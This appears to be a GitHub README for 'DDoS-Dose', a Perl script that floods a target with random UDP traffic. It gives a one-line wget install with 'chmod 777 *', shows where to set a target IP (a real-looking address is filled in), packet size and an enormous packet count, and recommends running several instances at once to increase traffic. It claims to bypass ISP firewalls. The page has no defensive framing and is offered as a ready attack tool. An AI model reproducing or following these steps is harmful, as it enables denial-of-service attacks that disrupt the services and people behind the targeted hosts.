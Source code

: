 # UDP Script for DDoS-Dose !

## Features

- Generate Random UDP Traffic
- From Random Port
- To Random Port
- Require HPC (High Performance Computing) Server
- Can bypass some ISP Firewalls
- Language: Perl
- Spoofed: No (doesn't include IP header Modification)


## Installation

One Line Setup for Debian Based distro ~ Ubuntu, Debian

```bash
  wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer4/UDP/random-udp.pl && chmod 777 * && apt update -y && apt install perl -y

```
    

## Usage

```
Enter Target ---> 
my $target_host = "117.203.8.210"; (Line6)
```
```
You can edit Packet Size on Script --->
my $max_size = 100; (Line 7) Define the max packet size
my $min_size = 50;  (Line 8) Define the min packet size
```
```
You can set how much packet sent to Host? --->
my $packet_count = 1000000000000000; (Line9)
```
```
perl random-udp.pl
```
```
YOU CAN RUN IT MULTIPLE TIME TO INCREASE TRAFFIC LIKE - Depends on CPU/RAM
perl random-udp.pl & perl random-udp.pl & perl random-udp.pl
---> Multithreading Causing Issue
```


## Related

want to pass the Target IP, Packet Size, Packet Count in Command Line

[Click Here for that Script](https://github.com/cyberceros/)


## Authors

- [@cyberceros](https://www.github.com/cyberceros)


## Feedback

If you have any feedback, please reach out to us at n@dultr.in

